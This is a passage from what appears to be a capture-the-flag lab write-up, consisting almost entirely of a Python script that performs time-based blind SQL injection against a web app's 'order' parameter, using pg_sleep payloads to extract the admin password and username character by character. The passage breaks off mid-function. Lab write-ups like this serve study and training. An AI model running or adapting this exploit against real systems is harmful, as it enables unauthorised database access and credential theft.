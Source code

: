 Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-15-bmdyy-Order/2021-11-15-bmdyy-Order%2001:02:52.png)

time_based.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Exploit to extract username and password for admin user
# Time Based Blind SQLInjection
# Order - bmdyy

import argparse
import requests
import sys
import string

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Function to extract the hash for the username selected
def hashExtractTimeBased(rhost):
    global password
    url_true = "http://%s" %rhost + ":5000/horses?order=1;"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    password = []
    list = string.digits
    limit_inf = 1
    limit_sup = 1
    iterator = 0
    print("The password for the user id 1 is: ")
    while(iterator < len(list)):
        for c in list[iterator]:
            payload = "SELECT+CASE+WHEN+COUNT((SELECT+password+FROM+users+WHERE+user_id=1+AND+SUBSTR(password," + str(limit_inf) + "," + str(limit_sup) + ")+SIMILAR+TO+'" + c +"'))<>0+THEN+pg_sleep(2)+ELSE+''+END%3b+--+-"
            url = url_true + payload
            res = requests.get(url, proxies=proxies)
            elapsed = res.elapsed.total_seconds()
            #print(elapsed)
            #print(c)
            # TRUE boolean message
            if elapsed > int(2):
                password.append(c)
                limit_inf = limit_inf + 1
                #limit_sup = limit_inf + 1
                sys.stdout.write(c)
                sys.stdout.flush()
                iterator = 0
            else:
                iterator = iterator + 1
                url = url_true
    password = ''.join(password)
    
# Function to extract username selected
def usernameExtractTimeBased(rhost):
    global password
    url_true = "http://%s" %rhost + ":5000/horses?order=1;"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    password = []
    list = string.ascii_letters
```